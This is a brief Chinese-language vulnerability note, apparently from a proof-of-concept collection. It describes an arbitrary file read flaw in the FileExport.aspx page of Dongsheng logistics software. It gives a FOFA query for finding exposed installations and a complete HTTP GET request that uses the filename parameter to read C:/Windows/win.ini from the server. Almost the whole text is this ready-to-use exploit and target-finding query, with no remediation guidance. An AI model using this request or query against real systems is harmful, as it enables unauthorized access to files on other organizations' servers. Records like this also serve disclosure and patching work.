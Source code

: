 东胜物流软件 FileExport.aspx 存在任意文件读取漏洞



fofa



app="东胜物流软件-物流软件"



poc



GET /Reports/FileExport.aspx?filename=C:/Windows/win.ini HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
